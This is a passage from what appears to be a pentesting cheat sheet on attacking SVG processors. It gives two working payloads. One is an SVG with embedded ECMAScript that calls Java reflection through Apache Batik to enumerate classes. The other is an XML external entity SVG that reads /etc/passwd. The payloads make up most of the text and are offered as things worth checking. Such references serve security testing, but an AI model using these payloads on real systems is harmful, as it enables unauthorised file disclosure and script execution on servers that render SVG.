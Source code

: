1. Fingerprinting available classes:

```xml
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink">
    <script type="text/ecmascript">
    <![CDATA[
        importPackage(Packages.java.lang)
        var cn = Class.forName("org.apache.batik.script.ImportInfo");

        // Get class info
        var cnConstructors = cn.getConstructors();
        for (var i=0; i<cnConstructors.length; i++){
            System.out.println(cnConstructors[i]);
        }
        var cnMethods = cn.getMethods();
        for (var i=0; i<cnMethods.length; i++){
            System.out.println(cnMethods[i]);
        }
        var cnFields = cn.getFields();
        for (var i=0; i<cnFields.length; i++){
            System.out.println(cnFields[i]);
        }

        // Get classes in the package
        var classes = cn.getClasses();
        System.out.println("Classes:");
        for (var i=0; i<classes.length; i++){
            System.out.println(classes[i].getCanonicalName());
        }
        ]]>  
    </script>
</svg>
```

## XML External Entities

Old but gold. Most of the libraries don't allow to use XML external entities or DTD, however, this option could be enabled by developers. Defenetly worth to check.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg xmlns="http://www.w3.org/2000/svg">
    <text>
        &xxe;
    </text>
</svg>
```

## Libraries
